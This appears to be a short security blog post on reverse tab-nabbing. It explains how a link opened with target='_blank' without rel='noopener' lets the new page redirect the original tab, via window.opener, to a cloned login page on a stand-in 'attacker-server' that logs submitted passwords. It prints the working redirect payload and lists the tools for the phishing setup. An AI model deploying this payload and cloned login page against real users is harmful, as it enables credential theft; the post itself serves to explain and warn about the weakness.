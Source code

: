 [back](/)

### Tab-nabbing attack to stealing creds

Imagine that clicking on the received link from a trusted user is normal =)

Despite all the irony, this behavior is quite typical for ordinary users who do not think about how safe the code of web applications that are open in their browser, in numerous tabs, is written.
This is about **Tab-nabbing** attack. The essence of which is to open a new tab in the victim's browser, the link to which is indicated with html tag **target = "_blank"** attribute, but without **rel = "noopener nofollow"** tag.

```
<a href="https://anylink.com target="_blank"> GoToAnyLink </a>
```

In this case **something.html** page is opened in the victim's browser with the code:

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace ('http://attacker-server/index.html');
if (window.parent! = window) window.parent.location.replace ('http://attacker-server/index.html');
</script>

Hi dude =)<br>
Check my notes

</html>
```

![Image](/img/tabnabbing/1.png)

Any vulnerable navigation to a new tab in the browser where the code is delimited by the tag **target ="_blank "** will be redirected to the page **http://attacker-server/index.html**.

![Image](/img/tabnabbing/2.png)

At the same time, the attacker can clone the authorization page to the vulnerable page using «httrack» or any similar utility. In this case, unnoticed by the victim, a transition will be made to the tab with the vulnerable site. As a rule, in such cases, the victim enters his username and password, assuming that the timed out session has expired. As a result, the attacker can easily obtain the victim's login and password using a web server with the ability to log POST requests.

![Image](/img/tabnabbing/3.png)

Thus, the attacker receives a username and password from the victim with a minimum set of tools and labor costs. In total for the attack you need: a web server with the ability to log POST requests, a phishing web page for authorization and a payload in the form of an html file

![Image](/img/tabnabbing/4.png)

That's all friends, watch the tabs in the browser and the links you click on =)

Links:
+ [https://hackerone.com](https://hackerone.com/reports/179568)
+ [How to dump post request with python](https://georgik.rocks/how-to-dump-post-request-with-python)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)